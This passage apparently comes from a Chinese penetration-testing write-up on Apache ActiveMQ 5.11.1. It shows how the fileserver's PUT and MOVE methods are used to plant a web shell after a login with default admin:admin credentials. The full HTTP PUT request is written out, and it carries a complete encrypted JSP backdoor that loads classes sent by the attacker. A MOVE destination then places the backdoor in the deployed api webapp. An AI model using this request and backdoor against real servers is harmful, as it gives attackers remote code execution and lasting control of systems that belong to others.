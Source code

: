 可以得到ActiveMQ的绝对路径，但是这也需要弱口令登录后台

然后访问fileserver，GET请求改为PUT，上传jsp木马

```
PUT /fileserver/ra1n3.jsp HTTP/1.1
Host: 192.168.1.15:8161
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:137.0) Gecko/20100101 Firefox/137.0
Authorization: Basic YWRtaW46YWRtaW4=
Accept-Encoding: gzip, deflate
If-Modified-Since: Fri, 13 Feb 2015 17:54:40 GMT
Priority: u=0, i
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Upgrade-Insecure-Requests: 1

<%! String xc="3c6e0b8a9c15224a"; String pass="pass"; String md5=md5(pass+xc); class X extends ClassLoader{public X(ClassLoader z){super(z);}public Class Q(byte[] cb){return super.defineClass(cb, 0, cb.length);} }public byte[] x(byte[] s,boolean m){ try{javax.crypto.Cipher c=javax.crypto.Cipher.getInstance("AES");c.init(m?1:2,new javax.crypto.spec.SecretKeySpec(xc.getBytes(),"AES"));return c.doFinal(s); }catch (Exception e){return null; }} public static String md5(String s) {String ret = null;try {java.security.MessageDigest m;m = java.security.MessageDigest.getInstance("MD5");m.update(s.getBytes(), 0, s.length());ret = new java.math.BigInteger(1, m.digest()).toString(16).toUpperCase();} catch (Exception e) {}return ret; } public static String base64Encode(byte[] bs) throws Exception {Class base64;String value = null;try {base64=Class.forName("java.util.Base64");Object Encoder = base64.getMethod("getEncoder", null).invoke(base64, null);value = (String)Encoder.getClass().getMethod("encodeToString", new Class[] { byte[].class }).invoke(Encoder, new Object[] { bs });} catch (Exception e) {try { base64=Class.forName("sun.misc.BASE64Encoder"); Object Encoder = base64.newInstance(); value = (String)Encoder.getClass().getMethod("encode", new Class[] { byte[].class }).invoke(Encoder, new Object[] { bs });} catch (Exception e2) {}}return value; } public static byte[] base64Decode(String bs) throws Exception {Class base64;byte[] value = null;try {base64=Class.forName("java.util.Base64");Object decoder = base64.getMethod("getDecoder", null).invoke(base64, null);value = (byte[])decoder.getClass().getMethod("decode", new Class[] { String.class }).invoke(decoder, new Object[] { bs });} catch (Exception e) {try { base64=Class.forName("sun.misc.BASE64Decoder"); Object decoder = base64.newInstance(); value = (byte[])decoder.getClass().getMethod("decodeBuffer", new Class[] { String.class }).invoke(decoder, new Object[] { bs });} catch (Exception e2) {}}return value; }%><%try{byte[] data=base64Decode(request.getParameter(pass));data=x(data, false);if (session.getAttribute("payload")==null){session.setAttribute("payload",new X(this.getClass().getClassLoader()).Q(data));}else{request.setAttribute("parameters",data);java.io.ByteArrayOutputStream arrOut=new java.io.ByteArrayOutputStream();Object f=((Class)session.getAttribute("payload")).newInstance();f.equals(arrOut);f.equals(pageContext);response.getWriter().write(md5.substring(0,16));f.toString();response.getWriter().write(base64Encode(x(arrOut.toByteArray(), true)));response.getWriter().write(md5.substring(16));} }catch (Exception e){}
%>
```



然后利用MOVE将其移动到合适的位置，如api

```
Destination:file:///opt/apache-activemq-5.11.1/webapps/api/ra1n3.jsp
```

其中/opt/apache-activemq-5.11.1为之前得到的active的绝对路径
